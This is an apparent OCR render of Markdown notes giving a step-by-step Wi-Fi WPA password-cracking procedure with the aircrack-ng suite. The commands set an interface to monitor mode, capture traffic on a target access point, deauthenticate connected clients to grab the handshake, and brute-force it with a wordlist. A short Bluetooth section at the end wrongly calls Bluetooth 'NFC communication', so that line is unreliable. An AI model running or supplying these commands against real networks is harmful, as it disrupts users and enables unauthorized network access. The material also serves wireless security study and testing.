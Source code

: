 * MAC address of target AP (BSSID).
* MAC address of client.
* Channel AP transmitting on.
* Password list.

`aircrack-ng` suite can supply this information.

To use `aircrack-ng`, we need to change the network interface into **monitor mode** to check all traffic going through device. We can do that using:

```bash
airmon-ng start wlan0
```

This will rename the wireless interface to `wlan0mon`.

Then run:

```bash
airodump-ng wlan0mon
```

This will supply:

* `BSSID` - MAC address of AP and client.
* `PWR` - signal strength (dbm)
* `ENC` - encryption used to secure transmission.
* `#Data` - data throughput rate.
* `CH` - channel.
* `ESSID` - name of the AP.

Need 3 terminals open running following commands to crack AP:

1. Capture all packets on channel 10:

  ```bash
  # -c $channel
  # -w SSID
  airodump-ng -c 10 --bssid 01:01:AA:BB:CC:22 -w kgdev wlan0mon
  ```

1. Deauthenticate anyone connected to AP so we can capture hash of the users that reauthenticate:

  ```bash
  aireplay-ng --deauth 100 -a 01:01:AA:BB:CC:22  wlan0mon
  ```

The password hash should show up in upper-right corner of `airodump-ng`.

1. Use password list to find password in captured hash:

  ```bash
  aircrack-ng -w wordlist.dic -b 01:01:AA:BB:CC:22 kgdev.cap
  ```

-------

## Bluetooth

NFC communication operating between 2.4 - 2.485GHz with 1.6k hops/sec. Range is on average ~10m but can get to 100m max.
